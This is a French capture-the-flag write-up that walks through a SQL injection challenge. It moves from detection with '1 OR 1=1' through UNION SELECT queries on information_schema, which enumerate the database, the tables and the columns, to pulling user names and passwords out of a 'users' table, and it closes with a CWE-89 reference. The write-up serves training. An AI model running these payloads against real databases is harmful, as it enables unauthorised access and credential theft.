








# Objectif



Voici notre porte nouvelle porte d'entrée.

## Détection 



1 OR 1=1 => contournement de la requête

## Extraction colonnes

```1 OR 1=1 ORDER BY 2```

```1 UNION SELECT 1,2```

UNION SELECT avec le bon nombre de colonnes (2 ici)



## Nom de la base

```1 UNION SELECT database(),version()```



database() => Member_Sql_Injection

## Liste des tables

Pour des questions pratiques on passera Member_SQL_Injection en hexadecimal pour avoir accès a la table.

```1 UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema=0x4d656d6265725f53716c5f496e6a656374696f6e```



via information_schema.tables → users

## Liste des colonnes

Ici users est aussi convertit en hexadecimal.

```1 UNION SELECT column_name,2 FROM information_schema.columns WHERE table_name=0x7573657273```



via information_schema.columns → trouvé countersign

## Découvertes de consignes

```1 UNION SELECT first_name,commentaire FROM users```



## Extraction des données

```UNION SELECT first_name, countersign FROM users```



## Obtention du flag

```echo -n "fortytwo" | sha256sum ```

| Étape | Faille | Référence |
|-------|--------|-----------|
| Base de données exposées | Injection SQL | CWE-89 |
